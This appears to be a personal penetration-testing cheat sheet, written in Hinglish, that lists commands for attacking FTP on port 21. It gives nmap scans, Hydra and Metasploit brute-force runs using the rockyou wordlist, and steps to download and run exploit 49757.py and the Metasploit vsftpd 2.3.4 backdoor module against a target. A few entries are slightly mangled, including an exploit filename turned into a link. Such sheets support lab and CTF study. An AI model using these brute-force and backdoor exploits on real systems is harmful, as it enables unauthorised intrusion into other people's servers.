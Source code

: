 
---

# All port command

| **Command** | **Explanation (1 Line)** |
| --- | --- |
| 1] FTP (21) |  |
| `nmap -p 21 <target ip>` | Only FTP port scan |
| `nmap -p 21 <subnet>` | Subnet me kis-kis host ka **FTP port (21) open hai**, ye identify karta hai. |
| `nmap -sV -sC  <target ip> -p 21` | best |
| `nmap -sV -sC --script vuln <target_ip> -p 21` | vulnerability script use |
| `ftp <target>` | when anonymous login allow  Username: anonymous |
| `nc -nv <target> 21` | **Netcat Se FTP Service Check** |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target>` | **FTP Bruteforce (Hydra)** |
| nmap --script=ftp-syst -p 21 <target> | **FTP server ke system type aur version ki details nikalne ke liye** |
| nmap --script=ftp-brute -p 21 <target> | **FTP brute-force attack perform karne ke liye** |
| nmap -sV --script=ftp-login -p 21 <target> | Attempts login with credentials (default or supplied). with userlist and passlist |
| nmap --script=ftp-anon -p 21 <target> | **Anonymous FTP login allow hai ya nahi yeh check karta hai** |
| nmap --script=ftp-proftpd-backdoor -p 21 <target> | **ProFTPD vulnerability check karne ke liye** |
|  searchsploit vsftpd 2.3.4   |  version pata chle to ye command dal sakte hai |
|  searchsploit -m unix/remote/49757.py | aise hum doenload krege exploit ko   or use google github |
| python3 [49757.py](http://49757.py/) -h   | -h means help command to check use of exploit |
|  python3 [49757.py](http://49757.py/)  192.168.0.102 | usage: [49757.py](http://49757.py/) [-h] host    |
| msfconsole |  |
| search exploit vsftpd 2.3.4 |  |
| search ftp |  |
| use auxiliary/scanner/ftp/anonymous
set RHOSTS <target>
run
 | **Using msfconsole Anonymous Login Test Karo** |
| use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target>
set USER_FILE /usr/share/wordlists/rockyou.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
 | **Brute-Force FTP Passwords** |
| use auxiliary/scanner/ftp/ftp_version | Detects FTP version. |
| use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target>
run
 |  **Exploit FTP Backdoor (vsftpd 2.3.4)** |
| use exploit/unix/ftp/vsftpd_234_backdoor | Exploits vsFTPd 2.3.4 backdoor vulnerability. |
